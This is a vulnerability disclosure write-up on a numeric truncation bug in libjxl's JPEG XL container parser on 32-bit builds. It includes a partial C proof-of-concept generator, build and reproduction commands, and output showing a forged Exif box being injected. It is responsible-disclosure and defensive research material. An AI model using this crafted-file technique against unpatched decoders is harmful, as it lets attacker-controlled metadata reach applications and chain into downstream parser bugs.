


This post covers a vulnerability I found in [libjxl](https://github.com/libjxl/libjxl), the reference implementation of JPEG XL. The bug is an incorrect numeric conversion (CWE-681) in the container box parser: extended 64-bit box sizes are silently truncated to `size_t` on 32-bit platforms, which desynchronizes the decoder's view of box boundaries and lets an attacker inject phantom metadata boxes. It was fixed in v0.12.0 and is tracked as [CVE-2026-82522](https://www.cve.org/CVERecord?id=CVE-2026-82522) (CVSS 4.0: 5.3 Medium).

## Background: the JPEG XL container

A JPEG XL file can be a raw codestream, or it can be wrapped in the container format defined in ISO/IEC 18181-2. The container is a sequence of boxes, each with a header:

```
+------------+--------+====================+
| size (4B)  | type   | contents ...       |
|            | (4B)   |                    |
+------------+--------+====================+
```

The 4-byte `size` covers the whole box, header included. Two values are special:

- `size == 0`: the box runs until EOF.
- `size == 1`: the real size follows as a 64-bit big-endian value (an "extended" or "largesize" box), making the header 16 bytes.

So a container with a codestream box (`jxlc`) looks like this:



That 64-bit largesize is where the trouble starts: the parser reads it as a `uint64_t`, but everything downstream that tracks box boundaries uses `size_t`. On 64-bit platforms those are the same width and nobody notices. On 32-bit, `size_t` is 32 bits, and any largesize ≥ 2^32 gets silently narrowed.

## Root cause

The vulnerable code is in `lib/jxl/decode.cc`. `ParseBoxHeader` (line 1641 in the pre-fix tree) parses the header and returns the size as `uint64_t`:

```c
static JxlDecoderStatus ParseBoxHeader(const uint8_t* in, size_t size,
                                       size_t pos, size_t file_pos,
                                       JxlBoxType type, uint64_t* box_size,
                                       uint64_t* header_size) {
  ...
  *box_size = LoadBE32(in + pos);
  pos += 4;
  memcpy(type, in + pos, 4);
  pos += 4;
  if (*box_size == 1) {
    *header_size = 16;
    if (OutOfBounds(pos, 8, size)) return JXL_DEC_NEED_MORE_INPUT;
    *box_size = LoadBE64(in + pos);   // full 64-bit largesize
    pos += 8;
  }
  *header_size = pos - box_start;
  if (*box_size > 0 && *box_size < *header_size) {
    return JXL_INPUT_ERROR("invalid box size");
  }
  if (file_pos + *box_size < file_pos) {
    return JXL_INPUT_ERROR("Box size overflow");
  }
  return JXL_DEC_SUCCESS;
}
```

There is an overflow check, but it only catches a wraparound of `file_pos + *box_size` in **64-bit** arithmetic. A largesize of `0x0000000100000090` passes it easily, because nothing wraps at 64 bits. The check guards the parsed value, not the narrowing conversion that happens when the caller stores it.

The caller, `HandleBoxes`, stores the result into the decoder state, and those fields are all `size_t` (`lib/jxl/decode.cc:398-404`):

```c
size_t file_pos;

size_t box_contents_begin;
size_t box_contents_end;
size_t box_contents_size;
size_t box_size;
size_t header_size;
```

And the assignments:

```c
dec->box_contents_unbounded = (box_size == 0);
dec->box_contents_begin = dec->file_pos + header_size;
dec->box_contents_end =
    dec->box_contents_unbounded ? 0 : (dec->file_pos + box_size);
dec->box_contents_size =
    dec->box_contents_unbounded ? 0 : (box_size - header_size);
dec->box_size = box_size;
```

On a 32-bit build, `file_pos + box_size` is computed after `box_size` has already been truncated to 32 bits. A largesize of `0x100000090` becomes `0x90`, and `box_contents_end` lands gigabytes before where the box actually ends.

The decoder then computes how much codestream is left in the current box like this:

```c
size_t AvailableCodestream() const {
  size_t avail_codestream = avail_in;
  if (!box_contents_unbounded) {
    avail_codestream =
        std::min<size_t>(avail_codestream, box_contents_end - file_pos);
  }
  return avail_codestream;
}
```

Two failure modes fall out of this, depending on the crafted size:

1. **Truncated end > file_pos**: the decoder believes the `jxlc` box ends early. It consumes only part of the codestream, transitions back to `BoxStage::kHeader`, and starts parsing the remaining codestream bytes as box headers. Since the attacker controls those bytes, they control the phantom box's type and size.
2. **Truncated end < file_pos**: `box_contents_end - file_pos` underflows and wraps to just under `SIZE_MAX`, so the `min()` picks `avail_in` and the box appears to extend to the end of the input.



The result: an attacker places a fake box header at the exact byte offset where the truncated box "ends", and the decoder happily treats it as a real container box — including `Exif`, `xml ` (XMP), or `jumbf` metadata boxes.

## PoC

The PoC generator builds a 512-byte container: signature box, `ftyp`, then an extended `jxlc` box with largesize `0x0000000100000090`, followed by a valid 8x8 codestream (produced with `cjxl -d 0 -e 1`). The file is arranged so that the bytes landing at the truncation boundary — file offset `0xB0` — form a phantom `Exif` box header with an attacker-controlled payload:

```c
uint8_t jxlc_header[16];
store_be32(jxlc_header, 1);             /* box_size = 1 (extended) */
memcpy(jxlc_header + 4, "jxlc", 4);    /* box_type */
store_be64(jxlc_header + 8, 0x0000000100000090ULL); /* 64-bit extended size */
fwrite(jxlc_header, 1, sizeof(jxlc_header), f);
```

The arithmetic, with the `jxlc` header starting at file offset `0x20`:

- **64-bit build:** `box_contents_end = 0x20 + 0x100000090 = 0x1000000B0` — correct, and the file is rejected later because it isn't actually 4 GiB long.
- **32-bit build:** `box_size` truncates to `0x90`, so `box_contents_end = 0x20 + 0x90 = 0xB0`. The codestream starts at `0x30`, so the decoder treats only the first 128 bytes as codestream and parses whatever sits at `0xB0` as the next box.

To reproduce, build libjxl for 32-bit (an i686 toolchain file is enough) and run the stock tools — no custom harness needed:

```bash
gcc -o poc_gen poc_gen.c && ./poc_gen exploit.jxl

cmake -B build-32 \
  -DCMAKE_TOOLCHAIN_FILE=toolchain-i686.cmake \
  -DCMAKE_BUILD_TYPE=Debug \
  -DBUILD_TESTING=OFF -DJPEGXL_ENABLE_TOOLS=ON \
  -DJPEGXL_ENABLE_PLUGINS=OFF -DJPEGXL_ENABLE_MANPAGES=OFF \
  -DJPEGXL_ENABLE_BENCHMARK=OFF -DJPEGXL_ENABLE_EXAMPLES=OFF
cmake --build build-32 --target jxlinfo -j$(nproc)

build-32/tools/jxlinfo exploit.jxl
```

Same file, two builds:

```
# 32-bit jxlinfo
JPEG XL file format container (ISO/IEC 18181-2)
JPEG XL image, 8x8, (possibly) lossless, 8-bit RGB
Color space: RGB, D65, sRGB primaries, sRGB TF, Perceptual
Uncompressed Exif metadata: 63 bytes       <-- phantom box
Unknown box:
  type: ""
  size: 0

# 64-bit jxlinfo
JPEG XL file format container (ISO/IEC 18181-2)
JPEG XL image, 8x8, (possibly) lossless, 8-bit RGB
Color space: RGB, D65, sRGB primaries, sRGB TF, Perceptual
Decoder error                              <-- no phantom box
```

The "Exif metadata: 63 bytes" line on 32-bit is entirely attacker-controlled. Hexdump of what the tool extracted:

```
0000: 00 00 00 00 45 78 69 66 00 00 41 54 54 41 43 4b  |....Exif..ATTACK|
0010: 45 52 5f 43 4f 4e 54 52 4f 4c 4c 45 44 5f 44 41  |ER_CONTROLLED_DA|
0020: 54 41 5f 43 57 45 36 38 31 5f 45 58 50 00 00 00  |TA_CWE681_EXP...|
```

`jxlinfo` subscribes to `JXL_DEC_BOX` events, and `djxl` does the same through `lib/extras/dec/jxl.cc`, so both tools extract the phantom Exif box on 32-bit. Any application using the C API with `JXL_DEC_BOX` on a 32-bit build is affected the same way.

## Impact

- **Arbitrary metadata injection.** Exif, XMP, IPTC and JUMBF boxes can be forged into a file that otherwise decodes as a valid image. Applications that trust extracted metadata (and many pass it straight to Exif/TIFF parsers) will process attacker-supplied data that was never really in the container's metadata section — a handy way to chain into downstream parser bugs.
- **DoS.** Phantom boxes can claim sizes near 4 GiB, making applications buffer or wait on data that will never arrive.
- **Potential OOB read.** The underflow variant (`box_contents_end < file_pos`) makes `AvailableCodestream()` believe the box spans the rest of the input.
- **32-bit only, but that still matters.** i686 Linux packages, 32-bit ARM (Android `armeabi-v7a`, embedded Linux), and 32-bit Windows builds are all over the places where image decoding runs.

All versions before v0.12.0 are affected (the box parser has been around since roughly v0.5.0).

## The fix

The maintainer landed the fix in commit [22ad80af](https://github.com/libjxl/libjxl/commit/22ad80af1454f0444ea34115e49ed40517147d68) as part of [PR #4885](https://github.com/libjxl/libjxl/pull/4885), released in [v0.12.0](https://github.com/libjxl/libjxl/releases/tag/v0.12.0). Instead of only adding a range check, `ParseBoxHeader` and the locals in `HandleBoxes` were changed to `size_t`, and the narrowing itself is now detected with a round-trip comparison:

```c
uint64_t box_size_64 = LoadBE64(in + pos);
pos += 8;
*box_size = static_cast<size_t>(box_size_64);
if (box_size_64 != static_cast<uint64_t>(*box_size)) {
  return JXL_INPUT_ERROR("Box size overflow");
}
```

If the value doesn't survive the trip through `size_t`, the file is rejected at parse time. On 64-bit the check never fires; on 32-bit any largesize ≥ 2^32 is now an error instead of a silent truncation. Both PoC files are correctly rejected by the patched 32-bit build.

## Disclosure timeline

- **2026-03-24** — Reported to `libjxl-security@google.com` with PoC and analysis.
- **2026-03-25** — Maintainer confirmed the bug and the fix direction.
- **2026-03-26** — Sent a tested patch; discussed GHSA vs. public PR.
- **2026-04-15** — Confirmed as a security vulnerability; fix queued for the next release.
- **2026-07-01** — Fix merged in `22ad80af` (PR #4885) with a `Thanks to Ali Raza (@locus-x64) for reporting` note in the commit message; shipped in v0.12.0.
- **2026-08-17** — CVE requested from MITRE; no follow-up.
- **2026-09-02** — [VulnCheck](https://vulncheck.com/) assigned and published CVE-2026-82522.

If you run libjxl on any 32-bit target, update to v0.12.0.

## References

- [CVE-2026-82522](https://www.cve.org/CVERecord?id=CVE-2026-82522)
- [Fix commit 22ad80af](https://github.com/libjxl/libjxl/commit/22ad80af1454f0444ea34115e49ed40517147d68) / [PR #4885](https://github.com/libjxl/libjxl/pull/4885)
- [libjxl v0.12.0 release notes](https://github.com/libjxl/libjxl/releases/tag/v0.12.0)
- [CWE-681: Incorrect Conversion between Numeric Types](https://cwe.mitre.org/data/definitions/681.html)
- ISO/IEC 18181-2 — JPEG XL container format

- locus-x64
